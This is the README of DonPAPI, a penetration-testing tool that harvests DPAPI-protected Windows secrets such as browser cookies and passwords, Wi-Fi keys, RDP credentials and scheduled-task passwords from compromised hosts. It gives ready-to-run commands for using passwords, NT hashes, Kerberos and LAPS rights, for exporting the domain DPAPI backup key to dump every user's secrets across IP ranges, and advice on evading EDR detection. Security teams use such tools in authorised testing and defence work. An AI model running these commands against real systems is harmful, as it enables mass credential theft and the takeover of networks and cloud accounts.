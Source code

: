# DonPAPI
Dumping relevant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)

## Installation 

### From source

```bash
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python setup.py install
DonPAPI -h
```

### From pip

```bash
pip install DonPAPI
```
Dumping revelant information on compromised targets without AV detection


## DPAPI dumping
Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :
- User password
- Domain DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Current gathered info
- Windows credentials (Scheduled Tasks credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wi-Fi key
- Internet Explorer credentials
- Chrome cookies & credentials
- Firefox cookies & credentials 
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance
- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :
- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain clear text login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract masterkeys hash value for every user profiles (masterkeys being protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI -k domain/user@target
DonPAPI -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration
The RemoteOps part can be spotted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 


## Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of ADConnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shitty code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo
- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```

